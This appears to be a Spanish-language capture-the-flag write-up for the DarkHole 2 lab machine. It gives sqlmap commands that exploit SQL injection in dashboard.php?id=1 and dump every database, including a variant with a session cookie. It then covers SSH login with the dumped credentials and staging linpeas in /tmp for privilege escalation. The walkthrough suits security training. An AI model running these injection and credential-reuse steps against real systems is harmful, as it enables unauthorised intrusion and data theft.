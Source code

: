 ![[Pasted image 20240415041136.png]]

Una vez que hemos entrado a la web, a simple vista podemos observar un URL posiblemente vulnerable **dashboard.php?id=1**. 
### Explotación

Pero antes de nada haremos uso de la herramienta [[Recursos#sqlmap||Sqlmap]], para poder obtener información de la base de datos haciendo uso del siguiente comando.

	sudo sqlmap -r request --dbs -batch

![[Pasted image 20240415044524.png]]

> [!TIP] Sqlmap
> El comando request es la petición que se envía al interactuar con la pagina, descargada como item desde Burpsuite.

![[Pasted image 20240415045723.png]]

Ahora que ya conocemos que existen 5 BD, comencemos a extraer información de cada una, iniciando por la primera.

	sudo sqlmap -r request -D darkhole_2 --dump-all --batch

![[Pasted image 20240415050722.png]]

> [!EXAMPLE] ¿Otra manera?
> Otra manera de poder realizar un SQLi con Sqlmap, es a traves del comando
> 
> `sudo sqlmap -u http://192.168.1.20/dashboard.php?id=1 --cookie='PHPSESSID=35574fl2dsldltkq3odrbhq4tn' --dbs=mysql --current-db`
> 
> `sudo sqlmap -u http://192.168.1.20/dashboard.php?id=1 --cookie='PHPSESSID=35574fl2dsldltkq3odrbhq4tn' --dbs=mysql --current-db -D darkhole_2 --tables`
> 
> `sudo sqlmap -u http://192.168.1.20/dashboard.php?id=1 --cookie='PHPSESSID=35574fl2dsldltkq3odrbhq4tn' --dbs=mysql --current-db -D darkhole_2 [table] --dump`

Importante! Recuerdan aquellos resultados de ¿nmap?. Teníamos el puerto 22(SSH) open, así que con los datos recuperados por la herramienta, trataremos de conectarnos.

![[Pasted image 20240415051607.png]]
### Post - Explotación/Escalación de Privilegios

Ahora buscamos la carpeta **[[Linux Fundamentals#Jerarquía del Sistema de archivos|/tmp]]** y a través de un server en python3 nos traemos la herramienta [linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20240414-ed0a5fac) para poder encontrar vulnerabilidades que nos permitan escalar privilegios.

![[Pasted image 20240415055408.png]]

y usamos el comando `chmod 777 linpeas.sh` y listamos.
